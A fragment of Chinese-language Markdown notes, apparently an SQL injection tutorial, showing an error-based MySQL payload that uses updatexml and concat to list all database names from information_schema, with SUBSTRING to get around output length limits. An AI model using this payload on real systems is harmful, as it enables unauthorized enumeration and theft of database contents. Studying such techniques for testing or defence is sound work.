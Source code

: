 ![image-20250222155203513](static/image/image-20250222155203513.png)

#### 获取所有数据库名

```mysql
# 获取所有数据库的数据库名，因为有长度限制。所以通过substing截取 1,15 代表着截取1至15的字符内容
updatexml(1,concat(0x7e,(SELECT(SUBSTRING(group_concat(schema_name),字符串头,字符串尾))FROM(information_schema.schemata)),0x7e),1)
```

![image-20250222154138099](static/image/image-20250222154138099.png)
